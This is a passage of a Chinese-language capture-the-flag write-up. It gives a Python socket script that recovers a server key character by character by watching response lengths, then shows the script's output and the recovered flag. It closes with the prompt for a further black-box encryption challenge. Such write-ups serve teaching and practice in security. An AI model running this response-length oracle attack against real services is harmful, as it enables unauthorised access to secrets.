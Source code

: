 ```
import socket
import string
known_part_of_the_key = "Key:"
def Checker(s, bs):
    global known_part_of_the_key
    strings = string.letters + string.digits + "%/+=:"
    while 1:
        for ch in strings:
            s.send(known_part_of_the_key + ch)
            resp = s.recv(2048)
            if len(resp) == bs:
                print known_part_of_the_key
                known_part_of_the_key = known_part_of_the_key + ch

host = "172.16.1.20"
port = 9999
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))
banner = sock.recv(1024) #Receive the banner
print banner
sock.send(known_part_of_the_key)
resp = sock.recv(2048)
base_size = len(resp)
Checker(sock, base_size)

```

运行脚本之后就得到 flag：DrizzleVerandaFinger576

```
#>python soln.py
        Welcome to the Keygen server.
        ==============================
[+]All access is monitored and any unauthorised access will be treated as CRIME
Key:
Key:D
Key:Dr
Key:Dri
Key:Driz
****SNIP****
Key:DrizzleVerandaFinger576
****SNIP****

```

## 0x03 杂项（Chop Suey）

* * *

**Question**

Fortcerts 的高管均表示反对使用白盒测试的方法，他们说真正的攻击者不可能获得源码的访问权。请对 Fortcerts 的一个非常安全的加密服务进行黑盒测试。找出服务中能够恢复加密数据的漏洞。这个非常安全的加密服务运行在 172.16.1.20:1337
